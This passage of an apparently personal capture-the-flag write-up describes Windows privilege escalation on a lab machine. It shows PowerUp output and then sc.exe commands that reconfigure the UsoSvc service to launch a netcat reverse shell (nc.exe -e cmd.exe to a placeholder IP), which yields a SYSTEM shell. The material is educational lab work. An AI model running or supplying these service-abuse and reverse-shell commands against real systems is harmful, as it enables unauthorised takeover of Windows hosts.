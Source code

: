 So After I transfer the script and run it we see the output.

{%highlight powershell%}
PS C:\windows\temp> . .\PowerUp.ps1
. .\PowerUp.ps1
PS C:\windows\temp> Invoke-AllChecks
Invoke-AllChecks

Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 1044
ProcessId   : 4352
Name        : 4352
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files
{%endhighlight%}

Now we are cookin! We see a weak service called Usosvc. After some more research I find that I can use sc.exe in windows to play with services. So sc.exe was like systemctl/service command for linux. Noted.

Here is some [documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-config) for some background.
Refering to the previous [github page](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/c7e3ea005e8a174664d17d04a5e25a66846c06a5/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md) about priv esc there is also a section to exploit the Usosvc service.

So I was able to follow along because it was pretty straight forward and just set up another netcat listener.

{%highlight powershell%}
PS C:\Windows\system32> sc.exe stop UsoSvc
PS C:\Windows\system32> sc.exe config usosvc binPath="C:\Windows\temp\nc.exe YourIP 4444 -e cmd.exe"
PS C:\Windows\system32> sc.exe start UsoSvc
{%endhighlight%}

{%highlight bash%}
nc -lvp 5678
Listening on [0.0.0.0] (family 0, port 5678)
Connection from 10.10.10.180 49722 received!
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
{%endhighlight%}

Phew... That was fun. Learned a lot of new stuff with this box. Also after I rooted this one I looked up basics of powershell and guess what? I don't find it that scary anymore :)